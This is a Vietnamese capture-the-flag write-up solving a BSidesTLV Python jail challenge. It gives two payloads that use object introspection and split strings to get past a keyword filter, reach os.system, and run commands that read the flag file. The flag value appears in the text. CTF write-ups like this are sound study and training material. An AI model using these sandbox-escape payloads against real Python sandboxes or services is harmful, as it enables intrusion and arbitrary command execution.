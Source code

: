 Chạy <code>nc challenges.bsidestlv.com 3030</code> vào command<br/>
<strong> CÁCH 1</strong><br/>
Chạy lần lượt các cmd như sau:<br/>
<code>__builtins__.__setattr__("obj",__builtins__.__getattribute__("__class".__add__("__")).mro(  ).__getitem__(1))</code><br/>
<code>__builtins__.__setattr__("sub",obj.__getattribute__(obj,"__sub".__add__("classes__")))</code><br/>
<code>__builtins__.__setattr__("war",sub( ).__getitem__(58))</code><br/>
<code>__builtins__.__setattr__("ini",war.__getattribute__(war,"__in".__add__("it__")))</code><br/>
<code>__builtins__.__setattr__("glo",ini.__getattribute__("__glo".__add__("bals__")))</code><br/>
<code>__builtins__.__setattr__("lin",glo.__getitem__("line".__add__("cache")))</code><br/>
<code>__builtins__.__setattr__("dic",lin.__getattribute__("__dic".__add__("t__")))</code><br/>
<code>__builtins__.__setattr__("ops",dic.__getitem__("o".__add__("s")))</code><br/>
<code>__builtins__.__setattr__("run",ops.__getattribute__("sy".__add__("stem")))</code><br/>
<code>run("cu".__add__("rl	sec").__add__("ret/fl").__add__("ag.txt"))</code><br/>
Cờ là <code>BSidesTLV{I_AM_The_Python_Master}</code><br/>
<strong>CÁCH 2</strong>
Chạy cmd<br/>
<code>(1).__getattribute__('__init'.__add__('__')).__objclass__.__getattribute__((1).__getattribute__('__init'.__add__('__')).__objclass__,'__subclasses'.__add__('__'))(    ).__getitem__(59).__getattribute__((1).__getattribute__('__init'.__add__('__')).__objclass__.__getattribute__((1).__getattribute__('__init'.__add__('__')).__objclass__,'__subclasses'.__add__('__'))(    ).__getitem__(59),'__init'.__add__('__')).__getattribute__('func'.__add__('_globals')).__getitem__('line'.__add__('cache')).__getattribute__('o'.__add__('s')).__getattribute__('sy'.__add__('stem'))('/bin/ca?    $(find    /    -name    fla?.txt)')</code><br/>
<strong>Lưu ý ở cả 2 cách thì dấu cách đều phải tự tay thay lại bằng dấu tab không thì không ra kết quả</strong>
